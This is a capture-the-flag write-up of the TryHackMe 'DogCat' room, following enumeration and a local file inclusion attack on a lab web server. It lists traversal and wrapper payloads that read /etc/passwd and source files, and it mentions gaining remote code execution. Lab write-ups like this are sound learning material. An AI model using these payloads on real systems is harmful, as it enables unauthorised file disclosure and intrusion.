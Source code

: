 # DogCat TryHackMe

**Enumeration**

**Nmap:**

![image](https://user-images.githubusercontent.com/79543461/176386293-cbf1ba92-20aa-4012-9bca-efaeb883aaba.png)

Seeing only SSH and HTTP open, it seems that it will be a web vulnerability

**WhatWeb:**

![image](https://user-images.githubusercontent.com/79543461/176386911-cc73be86-9d60-4c08-8959-e0087ee3ff47.png)

**Web with Browser:**

![image](https://user-images.githubusercontent.com/79543461/176389233-3105ec6b-e61a-4df5-bef0-8f3f5faecd19.png)

**I click in dog and i see this:**

![image](https://user-images.githubusercontent.com/79543461/176389528-0e08f17b-3915-461e-a495-691a1ccf0ec5.png)

**In URL i see "view" parameter, It looks like LFI, let's try basic payloads**

![image](https://user-images.githubusercontent.com/79543461/176389910-70dcc9e5-b0b6-423d-a29b-9a8ddcd61392.png)

That message can mean two things.

Or they have protected the LFI website, Or the devoloper added filters so that an LFI cannot be executed so easily

**Payloads:**

../../../../etc/passwd = **No Work**

../../../../etc/passwd%00 = **No Work**

%252e%252e%252fetc%252fpasswd = **No Work**

%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00 = **No Work**

/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd = **No Work**

**Wrappers:**

Let's try with LFI Wrappers:

expect://whoami = **No Work**

php://filter/convert.base64-encode/resource=index.php = **No work**

Okey anything work, but i try to put cat or dog, it is possible that the filter checks if there is the word dog or cat.

Payload: **dog/etc/passwd**

![image](https://user-images.githubusercontent.com/79543461/176392772-34d8dbd7-ab20-4949-bf3a-97a9e4aa33df.png)

**That's It!!**

Every time I click on cat or dog I get a different picture, that makes me think that it could be a php file that is executed.

But looking at the source code it is very clear to me.

Therefore, to check it is necessary to send a base64 filter in the wrapper and ask it to give me the page cat or dog.

![image](https://user-images.githubusercontent.com/79543461/176395381-0726391b-8cc3-49cd-a33c-561605793226.png)

**WORKS!!! Lets go to Decode Base64 code**

![image](https://user-images.githubusercontent.com/79543461/176395536-b72fb120-52a8-4f4d-8e30-6a11189a9d90.png)

Same with dogs file

![image](https://user-images.githubusercontent.com/79543461/176396151-bc86b5d4-77ca-42fb-90fc-6c2caf3b8ce7.png)

**FFUF:**

Web App are adding .php extension in all the querys.

![image](https://user-images.githubusercontent.com/79543461/176399811-07d12933-5306-449f-983e-19af0110bf6a.png)

**Tryng Payloads I found the correct Payload**

![image](https://user-images.githubusercontent.com/79543461/176399237-64556068-edc0-4774-94dd-b5acfdc30d49.png)

**Decoded base64 index.php code**

![image](https://user-images.githubusercontent.com/79543461/176399650-b30098b2-02ec-4371-8006-8f9c06107134.png)

**Other FFUF**

![image](https://user-images.githubusercontent.com/79543461/176443978-851bd070-272b-47cb-9d54-cde62d16e1d5.png)

**Flag**

![image](https://user-images.githubusercontent.com/79543461/176402871-df440e00-01e7-479e-9cac-10131e797a06.png)

![image](https://user-images.githubusercontent.com/79543461/176444149-15725303-a6ab-47dd-ba1a-6fab61e0277f.png)

**Seeing index.php code• i see ext paramter expected in GET request.**

http://10.10.64.213/?view=php://filter/convert.base64-encode/resource=dog/../flag&ext=.php == WORKS GOOD

http://10.10.24.8/?view=php://filter/convert.base64-encode/resource=dog/../../../../&ext=etc/passwd == **WORKS GOOD!!!!!!!!**

**/etc/passwd**

![image](https://user-images.githubusercontent.com/79543461/176447685-600e98e5-7d55-4958-9d1e-9e829096cef8.png)

**With /etc/hosts i can see this: Is Docker Container**

![image](https://user-images.githubusercontent.com/79543461/176512462-a642fa4a-6c19-4a5b-b3f9-5c5f3c9fe1bb.png)

**RCE**

It's moment to upload to Remote Code Execution

**With this command:** 

![image](https://user-images.githubusercontent.com/79543461/176519831-2248462a-2123-4e21-9848-949560255509.png)

**I have RCE but it's impossible convert to shell.**

I need upload my php reverse shell.



